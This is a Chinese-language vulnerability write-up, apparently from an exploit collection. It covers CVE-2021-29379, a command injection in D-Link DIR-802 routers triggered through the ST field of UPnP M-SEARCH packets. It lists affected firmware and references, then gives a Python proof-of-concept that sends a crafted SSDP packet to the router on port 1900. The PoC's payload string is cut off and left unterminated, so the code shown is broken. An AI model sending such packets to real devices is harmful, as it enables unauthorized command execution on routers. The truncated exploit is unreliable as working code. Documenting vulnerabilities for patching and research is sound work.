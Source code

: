 # D-Link DIR-802 命令注入漏洞 CVE-2021-29379

## 漏洞描述

DIR-802中存在一个命令注入漏洞，攻击者可以通过精心制作的M-SEARCH数据包向UPnP注入任意命令。

与CVE-2020-15893相似，在固件版本v-1.00b05之前的D-Link DIR-802 A1上发现了一个问题。默认情况下，端口1900上启用了通用即插即用（UPnP）。攻击者可以通过将有效负载注入SSDP M-SEARCH发现数据包的“搜索目标”（ST）字段来执行命令注入。

参考链接：

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29379
- https://cool-y.github.io/2021/03/02/DIR-802-OS-Command-Injection/

## 漏洞影响

```
DIR-802 hardware revision Ax before v1.00b05
```

## 漏洞复现

poc：

```python
# coding: utf-8
import socket
import struct
buf = 'M-SEARCH * HTTP/1.1\r\nHOST:192.168.0.1:1900\r\nST:urn:schemas-upnp-org:service
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect(("192.168.0.1", 1900))
s.send(buf)
s.close()
```

